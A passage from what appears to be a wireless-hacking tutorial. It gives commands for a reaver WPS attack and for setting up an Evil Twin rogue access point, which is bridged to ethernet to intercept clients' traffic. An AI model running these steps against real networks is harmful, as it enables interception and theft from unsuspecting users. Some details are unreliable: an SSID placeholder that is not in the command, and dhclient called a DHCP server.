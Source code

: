    ```bash
    kali > reaver -i wlan0mon -b 00:11:22:33:44:55 -vv
    ```

    Replace `00:11:22:33:44:55` with the MAC address (`BSSID`) of the target AP and `MyWiFiNetwork` with its SSID.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Evil Twin Attack (Man-in-the-Middle)

**Overview:** An Evil Twin attack involves creating a rogue wireless access point (AP) with the same SSID and other settings as a legitimate AP to intercept traffic from unsuspecting clients.

**Setup Steps:**

1.  **Creating the Rogue AP:** Use `airbase-ng` to set up the Evil Twin AP:

    ```bash
    kali > airbase-ng -a aa:bb:cc:dd:ee:ff --essid hackers-arise -c 6 wlan0mon
    ```

    * `-a`: Sets the MAC address of the rogue AP.
    * `--essid`: Specifies the SSID of the rogue AP.
    * `-c`: Sets the channel to broadcast on.

    <figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
2.  **Bridge Interfaces:** Create a network bridge (`ha`) to connect `at0` (AP interface) and `eth0` (Ethernet interface):

    ```bash
    kali > ip link add name ha type bridge
    kali > ip link set ha up
    kali > ip link set eth0 master ha
    kali > ip link set at0 master ha
    ```
3.  **DHCP Server Setup:** Start a DHCP server (`dhclient`) on the bridge (`ha`) to assign IP addresses to connected clients:
